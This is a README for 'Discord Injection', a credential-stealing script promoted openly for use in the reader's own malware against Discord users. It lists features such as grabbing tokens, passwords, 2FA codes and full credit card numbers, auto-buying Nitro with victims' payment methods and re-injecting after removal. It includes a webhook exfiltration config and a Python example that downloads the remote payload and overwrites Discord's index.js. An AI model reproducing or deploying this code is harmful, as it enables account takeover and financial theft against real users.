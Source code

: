 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>
<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously

    ... //rest of the config you should NOT touch
};
```

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for root, dirs, files in os.walk(os.getenv('localappdata')):
        for name in dirs:
            if "discord_desktop_core-" in name:
                try:
                    directory_list = os.path.join(root, name+"\\discord_desktop_core\\index.js")
                except FileNotFoundError:
                    pass
                try:
                    os.mkdir(os.path.join(root, name+"\\discord_desktop_core\\initiation"))
                except FileExistsError:
                    pass
                f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                with open(directory_list, 'w', encoding="utf-8") as index_file:
                    index_file.write(f)
    for root, dirs, files in os.walk(os.getenv('appdata')+"\\Microsoft\\Windows\\Start Menu\\Programs\\Discord Inc"):
        for name in files:
            discord_file = os.path.join(root, name)
            os.startfile(discord_file)

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
Get a life you skid.

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- fix bugs
- more settings

## :seedling:・Inspiration
Discord-Injection is inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits to this repo

